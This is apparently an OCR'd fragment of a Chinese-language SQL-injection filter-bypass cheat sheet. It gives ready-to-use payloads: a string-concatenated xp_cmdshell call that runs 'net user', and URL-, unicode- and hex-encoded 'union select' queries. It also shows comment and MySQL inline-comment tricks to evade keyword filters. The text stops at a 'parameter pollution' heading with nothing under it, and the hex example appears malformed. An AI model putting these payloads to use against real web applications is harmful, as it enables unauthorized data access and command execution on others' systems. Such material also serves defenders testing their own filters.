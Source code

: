 ##### 特殊字符串拼接

```sql
?id=1;exec(master..xp_cmdshell'net user') --> id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')
```

##### 编码绕过

> `url编码`

```sql
# ?id=1'union select 1,2,3 --+
?id=1'%75%6e%69%6f%6e%20%73%65%6c%65%63%74 1,2,3 --+
```

> `unicode编码`

```sql
# ?id=1'union select 1,2,3 --+
?id=1'un%u0069on sel%u0065ct 1,2,3 --+
```

> `十六进制`

```sql
# ?id=1'union select 1,2,3 --+
?id=1'756e696f6e2073656c656374 1,2,3 --+
```

##### 注释绕过

> `普通注释`

```sql
# ?id=-1'union select 1,2,3 --+
  ?id=-1'/**/union/**/select 1,2,3 --+
  ?id=-1'/**/union/select 1,2,database/*%!a*/() -->使用/*%特殊符号*/的形式绕过/**/正则的过滤
```

> `内联注释`

- /*! code*/ 内联注释可用用于整个sql语句中

- 过滤了`union,where,table_name,table_schema,=,and,information_schema`等可用

```sql
/*!%23/*%0a关键字*/
/*!99999*/
```

##### 参数污染
